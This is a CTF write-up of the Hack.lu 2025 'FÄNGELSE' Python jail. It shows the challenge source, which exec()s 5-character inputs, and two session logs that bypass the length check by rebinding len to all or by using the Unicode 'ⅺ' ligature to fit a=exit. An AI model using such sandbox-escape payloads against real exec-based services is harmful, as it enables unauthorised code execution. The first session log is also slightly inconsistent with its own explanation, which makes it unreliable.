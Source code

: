 # Hack.lu CTF 2025 FÄNGELSE

```python
flagbuf = open("flag.txt", "r").read()

while True:
    try:
        print(f"Side-channel: {len(flagbuf) ^ 0x1337}")
    # Just in case..
    except Exception as e:
        # print(f"Error: {e}") # don't want to leak anything
        exit(1337)
    code = input("Code: ")
    if len(code) > 5:
        print("nah")
        continue
    exec(code)
```

Requirements:

1. No more than 5 characters: use `exit(flagbuf)` to leak flag, use `a=exit;len=a` to override function in two steps, use `ⅺ` for `xi` to break the length limitation; alternatively, set `len=all` to bypass length check

Solution by @moritz on Discord:

```shell
$ xn--fngelse-5wa.solven.jetzt 1024
Side-channel: 4890
Code: a=eⅺt
Side-channel: 4890
Code: len=a
flag{1_2_3_4_5_6_7_8_9_10_exploit!_12_13_...}
```

The length of `a=exit` is 6, but using [`ⅺ` (Unicode U+217A)](https://www.compart.com/en/unicode/U+217A) reduces it to 5. Then, `exit(flagbuf)` is called to print the flag.

Solution by @xtea418 on Discord:

```shell
$ nc xn--fngelse-5wa.solven.jetzt 1024
Side-channel: 4890
Code: a=all
Side-channel: 4890
Code: len=a
Side-channel: 4918
Code: print(flagbuf)
flag{1_2_3_4_5_6_7_8_9_10_exploit!_12_13_...}
Side-channel: 4918
```

Idea: override `len=all`, so the length check `all(code) > 5` is bypassed.
